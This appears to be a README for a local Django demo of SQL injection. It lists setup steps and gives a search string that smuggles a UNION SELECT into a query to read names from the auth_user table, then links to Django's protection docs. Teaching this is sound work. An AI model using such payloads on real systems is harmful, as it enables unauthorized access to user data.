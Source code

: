 **How to perform a SQL Injection Attack**

Steps

- pip install Django
- python manage.py runsever
- http://127.0.0.1:8000/items/search
- SELECT name FROM orders_item WHERE name LIKE '%' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'
- Search for "z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '"

**How to avoid SQL injection:**

https://docs.djangoproject.com/en/2.2/topics/security/#sql-injection-protection

https://django-book.readthedocs.io/en/latest/chapter20.html#sql-injection

